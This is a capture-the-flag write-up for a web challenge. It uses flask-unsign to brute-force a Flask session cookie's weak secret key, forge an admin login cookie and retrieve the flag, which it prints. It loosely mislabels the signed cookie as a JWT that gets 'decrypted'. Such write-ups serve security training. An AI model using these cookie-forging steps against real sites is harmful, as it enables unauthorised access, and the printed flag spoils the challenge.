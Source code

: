 # Genshin Code

**Challenge Category: Web** <br />
**Challenge Points: 500**

## Challenge Description

Bro said I can get 500 free rolls if I can log in to the administrator accounts. But I need to make sure my log in cookie is correct first...

`genshin.nypinfosec.com`

## Analysis

### 1. Login Form

Sending a GET request to the domain presents us a normal login form, with attributes `action="/login"` and `method="POST"`.

```sh
$ curl https://genshin.nypinfosec.com
```

```html
<form id="sign-up-form" action="/login" method="POST">
  <div class="form-group my-3">
    <label for="email">Username</label>
    <input
      type="text"
      class="form-control"
      name="username"
      placeholder="Enter Username"
    />
  </div>
  <div class="form-group my-3">
    <label for="password">Password</label>
    <input
      type="password"
      class="form-control"
      name="password"
      placeholder="Password"
    />
  </div>
  <div class="button-container">
    <button type="submit">Log In</button>
  </div>
</form>
```

### 2. Send Random Login Credentials

Since we know the login endpoint is at `/login`, we can attempt to login using a random `username` and `password` combination to see what we get.

```sh
$ curl -s -X POST -d "username=nyp&password=ctf" https://genshin.nypinfosec.com/login
```

```html
<!DOCTYPE html>
<html lang="en">
  <title>Redirecting...</title>
  <h1>Redirecting...</h1>
  <p>
    You should be redirected automatically to the target URL:
    <a href="/flag">/flag</a>. If not, click the link.
  </p>
</html>
```

This doesn't look right. No way did we supply some random `username` and `password` and we get logged in.

In the challenge description, they hinted something to do with cookies. Let's check the headers received.

```sh
$ curl -s -X POST -d "username=nyp&password=ctf" https://genshin.nypinfosec.com/login -v
```

```diff
  *   Trying 172.67.146.217:443...
  * Connected to genshin.nypinfosec.com (172.67.146.217) port 443 (#0)
  ...[truncated]...
  > POST /login HTTP/2
  > Host: genshin.nypinfosec.com
  > user-agent: curl/7.88.1
  > accept: */*
  > content-length: 25
  > content-type: application/x-www-form-urlencoded
  >
  ...[truncated]...
  < HTTP/2 302
  < date: Sun, 24 Dec 2023 15:21:30 GMT
  < content-type: text/html; charset=utf-8
  < location: /flag
  < vary: Cookie
+ < set-cookie: mihoyo_admin=eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZYhMeg.gkzUDUfnJ_8YT7OXeqL-iKg1Q2I; HttpOnly; Path=/
  ...[truncated]...
  <
  <!DOCTYPE html>
  <html lang="en">
    <title>Redirecting...</title>
    <h1>Redirecting...</h1>
    <p>
      You should be redirected automatically to the target URL:
      <a href="/flag">/flag</a>. If not, click the link.
    </p>
  </html>
  * Connection #0 to host genshin.nypinfosec.com left intact
```

As hinted, a cookie was set in the response.

### 3. The `/flag` Endpoint

We'll use the cookie from before and try the `/flag` endpoint as redirected now.

```sh
$ curl -s --cookie "mihoyo_admin=eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZYhMeg.gkzUDUfnJ_8YT7OXeqL-iKg1Q2I" https://genshin.nypinfosec.com/flag
```

```html
<!DOCTYPE html>
<html lang="en">
  <title>403 Forbidden</title>
  <h1>Forbidden</h1>
  <p>
    You don&#39;t have the permission to access the requested resource. It is
    either read-protected or not readable by the server.
  </p>
  * Connection #0 to host genshin.nypinfosec.com left intact
</html>
```

As expected, the cookie issued from the server does not work.

### 4. The Cookie Issued

The cookie issued by the server resembles much of a JWT token. We can try to decode it and see what is inside.

![JWT Decode](../.files/web_genshin_code.png "JWT Decode")

We definitely get something back. But, this token doesn't seem up-to-spec with [RFC 7519](https://datatracker.ietf.org/doc/html/rfc7519) because the payload is in the header, and there is no header to begin with.

```diff
### DECODED HEADER ###
+ Expected: {"typ":"jwt","alg":"HS256"}
- Decoded:  {"logged_in":false}

### DECODED PAYLOAD ###
+ Expected: {"logged_in":false}
- Decoded:  "e�Dv"
```

## Solution

1. We know that we must authenticate via a JWT token.
2. We know that the JWT token supplied is out-of-spec and can't be manipulated without the right tools. Let's install the right tools for the job.

```sh
pip3 install flask-unsign flask-unsign[wordlist]
```

3. Decrypt the issued JWT token using bruteforce

```sh
$ flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZYhMeg.gkzUDUfnJ_8YT7OXeqL-iKg1Q2I" --wordlist flask_unsign_wordlist/wordlists/all.txt
```

```
[*] Session decodes to: {'logged_in': False}
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2432): -----BEGIN PRIVATE KEY--------
[+] Found secret key after 19584 attemptsyyew6kIByris
'password'
```

4. Change the `logged_in` field to `True` and sign the new JWT token with the same key.

```sh
$ flask-unsign --sign --cookie "{'logged_in':True}" --secret password
```

```
eyJsb2dnZWRfaW4iOnRydWV9.ZYhT-Q.vysFmPznT24skoxe8B7ptQvd33M
```

5. Use the manipulated JWT token in the request back to the server

```sh
$ curl -s --cookie "mihoyo_admin=eyJsb2dnZWRfaW4iOnRydWV9.ZYhT-Q.vysFmPznT24skoxe8B7ptQvd33M" https://genshin.nypinfosec.com/flag | html2text -
```

```
       Damn You Are This Good...     "NYP{fL@sK_s3ss1On    _m@N1pulAT10N}"
```

We found the flag. Let's cleanup the output a little.

```sh
$ curl -s --cookie "mihoyo_admin=eyJsb2dnZWRfaW4iOnRydWV9.ZYhT-Q.vysFmPznT24skoxe8B7ptQvd33M" https://genshin.nypinfosec.com/flag | html2text - | tr -d " " | grep -o "NYP{.*}"
```

```
NYP{fL@sK_s3ss1On_m@N1pulAT10N}
```

## Final Remarks

Although this challenge was pretty straightforward, breaking spec [RFC 7519](https://datatracker.ietf.org/doc/html/rfc7519) made the challenge almost undoable unless there was a hint to Flask's own implementation of JWT, with mentions that it is out-of-spec.
